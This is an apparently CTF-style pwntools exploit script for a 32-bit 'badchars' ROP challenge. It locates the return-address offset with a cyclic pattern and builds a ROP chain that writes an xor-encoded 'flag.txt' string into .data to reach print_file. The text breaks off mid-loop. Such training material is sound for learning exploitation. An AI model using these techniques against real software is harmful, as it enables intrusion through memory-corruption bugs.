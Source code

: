 ```python
xor_gadget = 0x08048547
pop_ebx = 0x0804839d
pop_ebp = 0x080485bb
k = 0x0000004b
badchars = ['a','g','.','x']

# Print out the target address
info("%#x writable .data section", datasection)
info("%#x mov DWORD PTR [edi], esi", mov_gadget)
info("%#x pop esi ; pop edi ; pop ebp ; ret", pop_gadget)
info("%#x fl*, (flag) string", flagstr)
info("%#x et3t (.txt) string", txtstr)
info("%#x pop ebx ; ret", pop_ebx)
info("%#x pop ebp ; ret", pop_ebp)
info("%#x Value of K used to xor", k)
info("%#x xor BYTE PTR [ebp+0x0],bl ; ret", xor_gadget)
info("%#x call print_file", call_print_file)
info("%#x random junk address", junkaddr)
print("Bad characters:", badchars)



##### FIND CRASH OVERWRITE RETURN ADDRESS OFFSET #####

# We will send a 'cyclic' pattern which overwrites the return address on the stack
# needs alphabet parameter so that banned characters aren't used.
payload = cyclic(200,alphabet='bcdefhijk')

# Send cyclic pattern to crash it
io.sendlineafter('> ', payload)

# Wait for the process to crash
io.wait()

# Open up the corefile created after crash
core = io.corefile

# Print out the address of EIP at the time of crashing
eip_value = core.eip
# cyclic find needs alphabet parameter so that banned characters aren't used.
eip_offset = cyclic_find(eip_value,alphabet='bcdefhijk')
info('located EIP offset at {a}'.format(a=eip_offset))

##### CRAFTING PAYLOAD #####

payload = b""
payload += b'A' * eip_offset
payload += p32(pop_gadget)
payload += p32(flagstr)
payload += p32(datasection)
payload += p32(junkaddr)
payload += p32(mov_gadget)

payload += p32(pop_gadget)
payload += p32(txtstr)
payload += p32(datasection + 0x4) # +4 so that we don't overwrite our "flag" string
payload += p32(junkaddr)
payload += p32(mov_gadget)

for char in badchars:
    payload += p32(pop_ebx)
    payload += p32(k)
    payload += p32(pop_ebp)
```
